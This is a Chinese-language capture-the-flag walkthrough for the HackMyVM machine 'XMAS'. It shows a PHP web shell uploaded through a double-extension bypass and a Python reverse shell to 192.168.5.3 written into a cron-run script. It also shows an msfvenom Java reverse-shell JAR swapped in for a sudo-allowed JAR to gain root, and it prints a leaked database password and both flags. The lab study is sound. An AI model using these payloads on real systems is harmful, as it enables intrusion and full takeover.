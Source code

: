 # XMAS

2025.03.28 https://hackmyvm.eu/machines/machine.php?vm=XMAS

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

添加 christmas.hmv 到 host

首页上有个上传文件功能，只允许上传图片。先上传 png，bp 进行拦截，修改文件名 3.png.php，添加一句话 shell 到 data 中，上传的文件存储在 uploads 中，进行验证：

```
curl http://christmas.hmv/uploads/3.png.php?1=id --output -
```

数据库连接配置：

```
$mysqli = new mysqli('localhost', 'root', 'ChristmasMustGoOn!', 'christmas');
```

发现脚本 /opt/NiceOrNaughty/nice_or_naughty.py 应该某个定时任务在执行处理 uploads 中的文件，有权限修改，直接反弹 shell：

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > nice_or_naughty.py
```

拿到 user flag：

```
alabaster@xmas:~$ cat user.txt
HMV{7bMJ6js7guhQadYDTmBt}
```

sudo -l 显示 (ALL) NOPASSWD: /usr/bin/java -jar /home/alabaster/PublishList/PublishList.jar 有 w 权限直接替换，msf 生成 jar：

```
msfvenom -p java/shell_reverse_tcp lhost=192.168.5.3 lport=7777 -f jar -o PublishList.jar
```

将 jar 下载到目标机器覆盖原有，sudo 执行后拿到 root：

```
HMV{GUbM4sBXzvwf7eC9bNL4}
```
